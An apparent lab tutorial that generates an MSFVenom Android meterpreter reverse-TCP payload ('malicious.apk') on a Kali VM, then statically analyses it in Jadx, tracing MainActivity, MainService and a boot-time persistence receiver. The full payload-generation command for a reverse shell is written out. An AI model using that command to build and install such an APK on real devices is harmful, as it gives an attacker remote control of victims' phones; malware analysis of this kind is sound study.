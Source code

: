 # Analysing MSFVenom Android Payload (Malware)

MSFVenom is one of the most popular framework to create payloads, shellcodes, etc. I want to analyse a little bit a MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distibution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute below command after you exit from ssh
vagrant halt
```

Simply execute below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

After that, I copy **malicious.apk** to `/vagrant` which let me to access it from my computer.
```bash
cp malicious.apk /vagrant
```
## 🎬 Part 2 - Static Analysis with Jadx-Gui

Now I have **malicious.apk** besides **Vagrantfile**. Let's start static analysis.
Open it with Jadx-Gui. Let's see what AndroidManifest.xml does have for us.

![1](https://user-images.githubusercontent.com/36133745/166328267-ec5c9ddb-8230-46af-a575-adfddb1e6d27.png)

We have an activity called `MainActivity` (package: `com.metasploit.stage`) which is our first activity that'll execute.

![2](https://user-images.githubusercontent.com/36133745/166329390-42daa913-cba3-47cf-a4a4-2e2a4c920286.png)

We can also see there is a `BroadcastReceiver` with `android.intent.action.BOOT_COMPLETED` action. It is obvious that this malware use this permission to execute itself after restarting mobile.

![3](https://user-images.githubusercontent.com/36133745/166330015-7593e85c-5e8b-41fc-8b68-32822610297c.png)

Let's have a look at `MainActivity`. It simply calls `startService()` method from `MainService` class.

![4](https://user-images.githubusercontent.com/36133745/166330313-13e44b33-d638-415b-8e96-2b58dd130cce.png)

`MainService` class extended (inherited) from Service, so it's a service that we are dealing with.

![5](https://user-images.githubusercontent.com/36133745/166335467-a7932269-6aeb-466d-b9a2-564b14362811.png)

In this method again `startService` function called, but as we said we are in a service and it calls `MainService.class` in `Intent()`.
```java
public static void startService(Context context) {
    context.startService(new Intent(context, MainService.class));
}
```

So this time `onStartCommand()` method will call. `onStartCommand()` is called every time a client starts the service using `startService(Intent intent)`.

![6](https://user-images.githubusercontent.com/36133745/166336169-c9477814-cce5-4b93-88a8-65e24d209fd1.png)

This method, calls `start()` from `Payload` class. Now let's go deeper and see what `start()` method does.


I use `adb` to install our payload.
```shell
adb install malicious.apk
```
